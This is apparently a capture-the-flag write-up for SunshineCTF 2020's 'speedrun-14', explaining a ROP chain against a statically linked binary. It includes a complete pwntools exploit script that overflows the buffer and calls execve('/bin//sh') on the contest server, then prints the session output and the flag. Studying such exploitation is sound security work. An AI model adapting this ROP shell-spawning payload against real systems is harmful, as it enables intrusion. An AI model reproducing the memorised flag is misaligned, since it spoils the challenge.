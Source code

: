 # speedrun-14

## Task

nc chal.2020.sunshinectf.org 30014

File: chall_14

Tags: statically linked, binary exploitation, rop chain

## Solution

Now we have a statically linked binary with lots of functions. Lots of ROP gadgets!

Took me a while to figure this out.

After overflowing the buffer we need to insert our first gagdet.

Final result has to be to call an address where `syscall` is used.

Before that we need to:

  - set `rax` to `59` for the `execve` syscall.
  - set `rdi` to an address where `/bin//sh` is stored (first parameter)
  - set `rsi` to `0` (second parameter)
  - set `rdx` to `0` (third parameter)

But there is no `/bin/sh` or `/bin//sh` in the binary!

It's also explained here: https://github.com/guyinatuxedo/ctf/tree/master/defconquals2019/speedrun/s1

Since the file isn't an PIE we don't need a leak for the gadgets and can write to a memory region and use a `mov [rXx], rXx` to load the contents of a register into the address specified.

We use `dumprop` in gdb with peda to get the full list.

We find this: `0x484dac: mov [rax],rdx; add rsp,0x8; ret`

So we need to pop `/bin//sh` from the stack into `rdx` and `0x6b6000` into rax. Our string will be at that location. We just need additional 8 bytes after that because `0x8` is added to our `rsp`.

```bash
$ pmap -x $(pgrep chall_14)
PID:   chall_14
Address           Kbytes     RSS   Dirty Mode  Mapping
0000000000400000     728     728     728 r-x-- chall_14
00000000006b6000      24      24      24 rw--- chall_14
```

We search for the rest of our gadgets and voila. Note here that I didn't use pwntools ROP gadget finder since it wasn't successfull:

```python
from pwn import *

POP_RDI = 0x400696
POP_RAX = 0x4158f4
POP_RSI = 0x410263
POD_RDX = 0x44c086
MOV_RDX = 0x484dac
SYSCALL = 0x474e35

payload  = 'A' * 104

payload += p64(POD_RDX)
payload += '/bin//sh'
payload += p64(POP_RAX)
payload += p64(0x6b6000)
payload += p64(MOV_RDX)
payload += p64(0) # because rsp is raised

payload += p64(POP_RAX)
payload += p64(59) # sys_execve
payload += p64(POP_RDI)
payload += p64(0x6b6000)
payload += p64(POP_RSI)
payload += p64(0)
payload += p64(POD_RDX)
payload += p64(0)
payload += p64(SYSCALL)

p = remote('chal.2020.sunshinectf.org', 30014)

p.sendline()
p.sendline(payload)
p.interactive()
```

Now we get our flag:

```bash
$ python2 pwny.py
[+] Opening connection to chal.2020.sunshinectf.org on port 30014: Done
[*] Switching to interactive mode
$ ls
chall_14
flag.txt
$ cat flag.txt
sun{hail-to-the-king-c24f18e818fb4986}
```
